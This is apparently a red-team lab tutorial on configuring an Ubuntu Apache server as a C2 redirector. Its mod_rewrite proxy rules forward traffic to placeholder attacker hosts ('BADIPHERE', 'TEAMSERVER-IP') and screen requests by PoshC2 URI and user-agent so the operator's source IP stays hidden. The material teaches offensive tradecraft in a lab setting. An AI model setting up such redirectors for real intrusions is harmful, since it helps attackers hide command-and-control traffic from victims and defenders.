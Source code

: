 # Setting up proxy 

When running actions as an actor you always want to avoid giving away where you are coming from or your source ip. Typically this is done with a proxy also sometimes known as a LP (listening post), in this case it will be an ubuntu server running apache. Your current setup is as follows: 

	parrot-OS <> Victim VM

What we will be doing with the Ubuntu server is routing our C2 traffic through it so it appears it as though it is coming from the Ubuntu server and the the Parrot vm.

	Parrot <> Ubuntu <> Victim VM 

Lets install any Ubuntu server ISO from the interwebs [here](https://ubuntu.com/download/server).

# Configureing Apache on Ubuntu

Setting up your Ubuntu server should be fairly similar to how you set up your Parrot VM considering they are both linux based devices. 

Once your IPs are set and your Ubuntu server can route two both your Parrot and your Victim machine, lets set up apache.

```bash 
service apache status 
```

Depending on your setup apache/apache2 might be inactive(dead) by default. To start it we will run the following

```bash 
sudo service apache/apache2 start
```

You can verify by running the same status command 

```bash 
service apache status 
```
> **NOTE:** If you ever have issues starting your apache server to read the error codes. You could run into issues depending on the services you might already have running if they are using ports or services needed for apache.
  
Now if you open a browser of your choice in your Ubuntu server or attack box and browse to your Ubuntus IP you should be met with an apache2 default page describing how to configure your new apache server, read up because I dont want to retype all that. 

Apache configuring tree: 

	/etc/apache2/
	|-- apache2.conf
	|       `--  ports.conf
	|-- mods-enabled
	|       |-- *.load
	|       `-- *.conf
	|-- conf-enabled
	|       `-- *.conf
	|-- sites-enabled
	|       `-- *.conf

Now if you want to be a kool kid like Duck and change your web page to idk say a picture of a duck, we have to navigate to our web root at /var/www/html and change the content inside of our index.html file. We also have to get our duck.jpg file and drop it in are web root. 

```html
<!DOCTYPE html>
<html>
<body>

<h1>Its a Duck</h1>
<img src="duck.jpg" alt="W3Schools.com" width="104" height="142">

</body>
</html>
```

# Configure Proxy 

Now lets move to configuring our proxy for our C2 coms.

First we will navigate to /etc/apache2/site-enabled and view our `000-default.conf`, this is where we configure our setting for our currently hosted sites. Inside will looking something like this:

```apache 
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

What we want to add is an apache module called `mod_proxy`, we can do that with 2 new lines. 

```apache
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

	AllowOverride All
   	RewriteEngine On

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
Now that we have `mod_rewite` enabled we want to use the rewrite rules to create our filters. 

The first argument is a variable describing a characteristic of the request, the second argument is a regular expression that must match the variable, and a third optional argument is a list of flags that modify how the match is evaluated.

```html 
RewriteRule Pattern Substitution [flag]
```

Lets add our proxy rule to allow our C2 coms through our new proxy. 

```apache
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

	AllowOverride All
   	RewriteEngine On

	RewriteRule ^.*$ http://BADIPHERE%{REQUEST_URI} [P]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
With the above rules you should now have a proxy setup to push your C2 coms through the Ubuntu server. Keep in mind you now have to reconfigure your Poshc2 to have host coms be your Ubuntu server. You can get real fancy with mod_rewrite and add more rules/conditions to allow only C2 coms through and redirect anything else by filtering by your useragent string set in your poshc2 `config.yml` as well as your uri request for files being hosted, example code bellow as well as resources links on how to do fancy things below. 

```apache
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```